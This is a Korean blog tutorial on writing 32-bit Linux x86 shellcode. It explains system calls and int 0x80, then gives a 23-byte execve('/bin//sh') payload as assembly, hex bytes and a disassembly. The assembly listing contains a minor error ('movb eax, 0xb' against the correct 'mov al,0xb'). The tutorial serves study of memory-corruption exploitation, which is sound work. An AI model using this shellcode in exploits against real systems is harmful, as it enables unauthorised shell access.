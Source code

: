 ```yaml
---
title : "쉘코드 만들기"
excerpt : "쉘코드 만들기"
toc : true
toc_sticky : true
categories :
  - System
  - Linux
  - BOF
tags :
  - shellcode 만들기
---
```


## system call
```c
// write(1, buf, n) : (stdout, 문자열, 문자열 길이)

int main() {
  printf("hello world!\n");  // write(1, "hello world!\n)", 15);  
}
```
```
사용자가 printf() 함수를 사용을 하면 printf() 함수는 내부적으로 write() 함수를 사용함.

사용자가 write() 함수가 호출되면 내부적으로 libc.a에서 system call을 호출하게 되는데
아래와 같은 기계어 코드가 생성이 됨.
```
```
mov eax, 0x4
int 0x80
```
![](/assets/images/syscall_write.png){: .align-center}
```
소프트웨어 인터럽트에는 고유 번호가 존재하는데 시스템 콜도 그 중 한 종류로 고유번호는
IDT라는 곳에 저장이 되는데 0x80이 system_call의 고유 번호임.

system call을 호출하면 system call table에 있는 함수 중 write 함수의 고유 번호는 0x4

따라서 mov eax, 0x4는 system call table에 있는 write 함수를 호출하는 것이고
int 0x80은 system call을 호출하는 것임.
```
![](https://www.linuxbnb.net/wp-content/uploads/2018/06/system-call-overview-1.png){: .align-center}
```
1. Application에서 소프트웨어 인터럽트 발생
2. C library(libc.a)에서 system call 고유번호 0x80을 레지스터에 저장
3. Kernel에서 IDT를 참조해 예를 들어 write 함수를 사용하면 write 고유번호 0x4 저장
```
출처 : <a href="http://blog.naver.com/s2kiess/30190130352" target="_blank">http://blog.naver.com/s2kiess/30190130352</a> 

## 기계어 코드 작성
<a href="https://m.blog.naver.com/s2kiess/30190492715" target="_blank">https://m.blog.naver.com/s2kiess/30190492715</a>  

### 알아둬야 할 점
```
만약 쉘에서 만들거라면 확장자는 .s로 저장, 자세한 건 reference에서 확인

.global [변수명]은 [변수명] 부분을 global 영역으로 만들어 
외부에서 호출 가능하도록 지정한 것이라 함.

gcc는 컴파일 시 AT&T 문법을 사용해서 AT&T로 기계어 코드 작성해야 한다고 함.
```

##  system("/bin/sh")
```
system("/bin/sh")에서 system 함수는 내부적으론 execve 함수를 호출 
execve 함수는 또 내부적으로 system call을 호출 

따라서 execve만 호출해주면 됨.
```
**linux x86 sys_execve 함수**
```c
#include <unistd.h> 

int execve(const char *filename, char *const argv[], char *const envp[]);

// execve(문자열, 문자열 시작 주소, NULL);
```

## 어셈블리어로 작성
**32, 64bit linux system call table**   
<a href="https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md" target="_blank">chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md</a>  
![](/assets/images/syscall_execve.png){: .align-center}  
제작 사이트 : <a href="https://defuse.ca/online-x86-assembler.htm" target="_blank">https://defuse.ca/online-x86-assembler.htm</a>  
위 사이트는 인텔로 작성해줘야 함. 아마 변환과정에서 알아서 AT&T로 해주는 듯.

**execve("/bin//sh",0,0)를 호출하는 어셈블리어 코드**  
```
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
xor edx, edx
movb eax, 0xb
int 0x80
```
```
\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x31\xC9\x31\xD2\xB0\x0B\xCD\x80

길이 : 23
```
```
Disassembly

0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  31 c9                   xor    ecx,ecx
11: 31 d2                   xor    edx,edx
13: b0 0b                   mov    al,0xb
15: cd 80                   int    0x80
```

### 해석
```
xor 부분은 null byte 제거를 위해 해주는 것. 
null byte가 있으면 쉘 코드가 종료될 수 도 있음.
```
```
push eax          # 현재 값이 0이므로 문자열 마지막 null을 뜻함. 
push 0x68732f2f   # "//sh", little endian이므로 거꾸로 해준 것.
push 0x6e69622f   # "/bin", 거꾸로 해준 것.
mov ebx, esp      # push를 해주면 esp가 변경이 되므로(이렇게 하면 "/bin"에 위치)
                  # 문자열의 주소를 ebx에 전달해주는 것.
```
```
xor ecx, ecx
xor edx, edx

# null byte 제거와 동시에 ecx, edx에 값을 0을 주는 것.
```
```
movb eax, 0xb     # execve를 호출하기 위해 고유 번호인 0xb를 저장.
int 0x80          # system call을 호출하는 것.
```

### /bin/sh와 /bin//sh 차이점
출처 : <a href="https://htst.tistory.com/71" target="_blank">https://htst.tistory.com/71</a>
```
/bin/sh는 7바이트이므로 8바이트를 맞춰주기 위해 /bin//sh로 한 것.
```

## Reference
<a href="https://m.blog.naver.com/s2kiess/30190492715" target="_blank">https://m.blog.naver.com/s2kiess/30190492715</a>  
<a href="https://cosyp.tistory.com/205" target="_blank">https://cosyp.tistory.com/205</a>  
<a href="https://htst.tistory.com/70" target="_blank">https://htst.tistory.com/70</a>  
